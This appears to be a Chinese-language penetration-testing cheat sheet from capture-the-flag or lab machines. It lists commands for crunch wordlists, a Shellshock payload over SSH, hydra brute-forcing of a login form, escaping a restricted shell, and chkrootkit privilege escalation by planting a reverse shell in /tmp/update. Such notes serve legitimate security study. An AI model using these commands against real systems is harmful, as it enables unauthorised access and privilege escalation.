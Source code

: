   用 crunch 制作密码字典，其中 -t 表示指定格式，% 表示数字，逗号 表示大写字母

  `crunch 7 7 -t ,%Flesh > rick.txt;crunch 10 10 -t ,%Curtains >> rick.txt`

- wget 忽略证书下载

  ```http
  wget https://192.168.0.100:12380/blogblog/wp-content/uploads/719823961.jpeg --no-check-certificate
  ```


- shellshock env 环境变量绕过 ssh

  Shellshock，又称Bashdoor，是在Unix中广泛使用的Bash shell中的一个安全漏洞，首次于2014年9月24日公开。shellshock Bash 漏洞利用CVE-2014-6271可以通过 SSH 被利用！

  这里是私钥登录

  查看当前shell 的设置是否为bash
  利用'() { :;}; cmd' 这个payload让操作系统将) { :;}; 误认为是函数环境变量！

  ```bash
  └─# ssh -i noob noob@192.168.0.102 -o 'PubkeyAcceptedKeyTypes +ssh-rsa' '() { :;}; /bin/bash'
  ```

- gzip 解压 rockyou

  ```bash
  └─# gzip -d /usr/share/wordlists/rockyou.txt.gz 
  ```

- 私钥登录时密匙权限 0400

  ```bash
  └─# chmod 0400 id_rsa
  ```

- hydra 爆破 http表单

  ```bash
  hydra -l admin -P /usr/share/seclists/Passwords/probable-v2-top12000.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid" -t 64 -I
  ```

- `chkrootkit` 有一个本地提权漏洞，https://www.exploit-db.com/exploits/38775 不管是啥版本，先利用一把试试 ，看了提权代码，最终是要做的就是此程序会以 root 身份周期性执行 /tmp/update 的文件，所以我们只需要新建 tmp 目录下的 update 文件，里面写入反弹shell 代码即可

- 绕过 rbash

  https://www.freebuf.com/articles/system/188989.html 
  
  ```bash
  ssh mindy@192.168.101.42 "export TERM=xterm; python -c 'import pty; pty.spawn(\"/bin/sh\")'"
  ```
  
  或者配合 Apache James Server 2.3.2 - Remote Command Execution 漏洞

- 关于已知漏洞 exp 利用，里面的参数要注意，漏洞利用失败的时候，可能是某个参数需要更改，可能涉及到该系统的一些特定信息，要留心

